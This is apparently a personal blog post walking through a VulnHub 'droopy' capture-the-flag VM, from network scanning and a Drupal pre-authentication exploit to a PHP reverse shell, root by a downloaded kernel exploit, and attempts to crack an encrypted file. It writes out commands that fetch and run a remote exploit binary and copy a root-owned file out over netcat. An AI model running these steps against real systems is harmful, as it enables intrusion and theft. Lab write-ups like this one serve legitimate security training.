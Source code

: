 ```yaml
---
layout: post
title:  "vulnhub droopy vm"
date:   2016-05-26 00:00:10 +0000
categories: vulnhub
---
```

<p>Been a while since i played with vulnhub. So since yesterday i've been trying to break <a href="https://www.vulnhub.com/entry/droopy-v02,143/">droopy</a>, which i almost did ...
<p>So, the usual stuff:
{% highlight bash %}
sudo netdiscover -r 192.168.0.0/16
{% endhighlight %}
<p> My target is 192.168.1.89 .
{% highlight bash %}
nmap -p- -sV 192.168.1.89
{% endhighlight %}
<p> Found a port 80 open. I followed it since it was the only one open and found a drupal website.
<br>I tried to create a user no luck, i searched for something interesting in the sub-directories:
{% highlight bash %}
python wfuzz.py -c -z file,wordlist/general/common.txt --hc 404   http://192.168.1.89/FUZZ
{% endhighlight %}
<pre>
==================================================================
ID	Response   Lines      Word         Chars          Request
==================================================================

00385:  C=301      9 L	      28 W	    314 Ch	  "includes"
00491:  C=301      9 L	      28 W	    310 Ch	  "misc"
00499:  C=301      9 L	      28 W	    313 Ch	  "modules"
00675:  C=301      9 L	      28 W	    313 Ch	  "scripts"
00724:  C=301      9 L	      28 W	    311 Ch	  "sites"
</pre>
<p>... after a while decide to change and look for the drupal stuff. I found this gem <a href="https://github.com/droope/droopescan">droopescan</a> and found drupal 7.3 was in usage.
{% highlight bash %}
./droopescan  scan drupal -u http://192.168.1.88/ -t 8
{% endhighlight %}
<p>I don't usually ( at least i don't remember) hunt for exploits but his time this seemed a reasonable choice since it was an old version of drupal and i had no other ideia.
<p>Found the exploit ... a pre-authentication one, wow. o.o !!
<a href="https://www.exploit-db.com/exploits/34992/">the exploit</a>
{% highlight bash %}
python 34992.py  -t http://192.168.1.88 -u impious -p impious
{% endhighlight %}
<p>User created.

<p> So, in the admin panel after a while trying to add a "file uploader" to the article i saw an item saying to enable PHP to run. I wonder if this is commom usage in other CMS and similar, like wordpress and stuff... must check this.
<br>In modules I set the PHP to ok and then set the possibility to add php code in 'articles'. Next, i created a new article and used this <a href="http://pentestmonkey.net/tools/web-shells/php-reverse-shell">php reverse shell</a> pointing to my computer. With the usual suspect netcat for the win:
{% highlight bash %}
nc -lnvvp 12344
{% endhighlight %}
I created an article with that PHP in the body!
<p><b>shell!</b>

<p>After fooling around in the server, moving around all directories i could remember,there was no commom user directories to see .bash_history and not much besides the mysql password with no further info in the database as well.
I knew it was an old kernel, it's probably the first command i do whenever i connect to a server:
{% highlight bash %}
uname -a
{% endhighlight %}
Old old kernel... then again, i had no clue what to do next so i choose the easy path:
{% highlight bash %}
cd /tmp
wget https://www.kernel-exploits.com/media/ofs_64
chmod +x ofs_64
./ofs_64
{% endhighlight %}
<p><b>ROOT!</b> Oh!
<p>Reading the email in /var/spool/mail/www-data and the help hints i knew i had to use rockyou passwordlist against somehting and found the encrypted file in:
{% highlight bash %}
/root/dave.tc
{% endhighlight %}
<p>So copied the file with netcat to my computer:
{% highlight bash %}
nc -lnvvp 12345 > dave.tc
nc 192.168.1.73 12345 < dave.tc
{% endhighlight %}
<p>Well, then i gave up... i started cracking it with hashcat and went to do something else ... when i got back after 2 hours... no luck... wtf... i must have done something wrong.
<p>I thought i did something wrong.. 2 exploits in one VM and still no flag?  Hm... so i went to check other people resolutions: it appears they filtered the rockyou by the word 'academy' ( from the email in /var/spool/mail/www-data)... <b>i would never do that, honestly.</b> I still fail to see that hint in the email :P . So then they mount the truecrypt and found the flag in an hidden folder.
<p>Fun until root! :) After that i started wondering if what i was doing was ok, mainly those 2 exploits usage.
